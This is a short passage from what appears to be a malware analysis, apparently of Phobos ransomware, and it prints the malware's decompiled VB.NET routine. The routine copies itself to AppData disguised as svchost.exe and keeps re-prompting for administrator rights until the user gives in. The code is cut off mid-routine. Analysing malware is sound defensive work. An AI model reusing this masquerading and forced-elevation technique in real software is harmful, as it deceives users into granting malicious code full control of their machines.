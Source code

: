 ![image](/images/phobos/phobos-03.png)

It copy the current executable to a specified location and attempt to run it with administrative privileges. 

```vbnet
Private Shared processName As String = "svchost.exe"

Private Shared Sub copyResistForAdmin(processName As String)
	Dim friendlyName As String = AppDomain.CurrentDomain.FriendlyName
	Dim location As String = Assembly.GetExecutingAssembly().Location
	Environment.GetFolderPath(Environment.SpecialFolder.Startup) + "\" + friendlyName
	Dim text As String = Environment.GetFolderPath(Environment.SpecialFolder.ApplicationData) + "\"
	Dim text2 As String = text + processName
	Dim processStartInfo As ProcessStartInfo = New ProcessStartInfo(text2) With { .UseShellExecute = True, .Verb = "runas", .WindowStyle = ProcessWindowStyle.Normal, .WorkingDirectory = text }
	Dim process As Process = New Process()
	process.StartInfo = processStartInfo
	If friendlyName <> processName OrElse location <> text2 Then
		If Not File.Exists(text2) Then
			File.Copy(friendlyName, text2)
			Try
				Process.Start(processStartInfo)
				Environment.[Exit](1)
				Return
			Catch ex As Win32Exception
				If ex.NativeErrorCode = 1223 Then
					Program.copyResistForAdmin(processName)
				End If
				Return
			End Try
		End If
		Try
			File.Delete(text2)
			Thread.Sleep(200)
			File.Copy(friendlyName, text2)
		Catch
		End Try
		Try
			Process.Start(processStartInfo)
			Environment.[Exit](1)
		Catch ex2 As Win32Exception
			If ex2.NativeErrorCode = 1223 Then
				Program.copyResistForAdmin(processName)
			End If
		End Try
```